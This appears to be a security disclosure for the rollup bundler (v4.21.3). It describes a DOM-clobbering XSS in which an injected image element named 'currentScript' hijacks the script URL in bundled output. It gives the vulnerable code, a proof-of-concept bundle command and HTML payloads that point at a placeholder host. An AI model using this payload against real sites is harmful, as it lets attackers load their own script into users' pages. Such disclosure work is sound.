 ## rollup

### Meta

+ Library: rollup
+ Version: v4.21.3
+ Stars: 25.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk

### Library

URL: https://github.com/rollup/rollup

Bundlers run locally

### Vulnerable Code Snippet

```javascript
var _documentCurrentScript = typeof document !== 'undefined' ? document.currentScript : null;
var s = document.createElement('script');
s.src = (typeof document === 'undefined' ? require('u' + 'rl').pathToFileURL(__filename).href : (_documentCurrentScript && _documentCurrentScript.src || new URL('bundle.js', document.baseURI).href)) + 'extra.js';
document.head.append(s);
```

## PoC

as an example, bundle the js below: `rollup main.js --format cjs --file bundle.js`.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="bundle.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999"></img>
<!--Payload-->
```

